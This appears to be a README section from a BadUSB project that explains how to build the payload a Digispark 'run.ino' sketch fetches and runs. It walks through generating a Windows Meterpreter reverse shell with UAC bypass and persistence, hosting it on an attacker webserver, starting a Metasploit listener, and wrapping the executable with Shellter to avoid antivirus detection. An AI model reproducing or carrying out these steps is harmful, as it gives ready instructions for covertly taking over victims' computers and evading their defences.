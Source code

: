 ## Instructions To Creating the Payload to be executed by run.ino:

 ### METHOD 1 On the host machine(Linux): Using Winpayloads 
   ~ https://github.com/nccgroup/Winpayloads/blob/master/README.md ~
   #### Installation: 
        1. `git clone https://github.com/nccgroup/Winpayloads.git`  
        2. `cd Winpayloads`  
        3. `./setup.sh`
        
   #### RUN: 
        1. `./WinPayLoads.py`
        2. `2` (to run Windows Meterpreter Reverse Shell [uacbypass, persistence, allchecks]  )
        3. Enter port and ip or simply press Enter for defaults
        4. `y` (for UAC Bypass)
        5. enter victim windows version
        6. `y` to upload to local webserver
        7. That's it!! update run.ino with the url to the executable eg: http://192.168.0.24:8000/fgxjdqzp.exe, then compile and load to your digispark

  ### On the host machine (linux): // if above method doesn't work. (note: change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  *OPTIONAL* go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
    

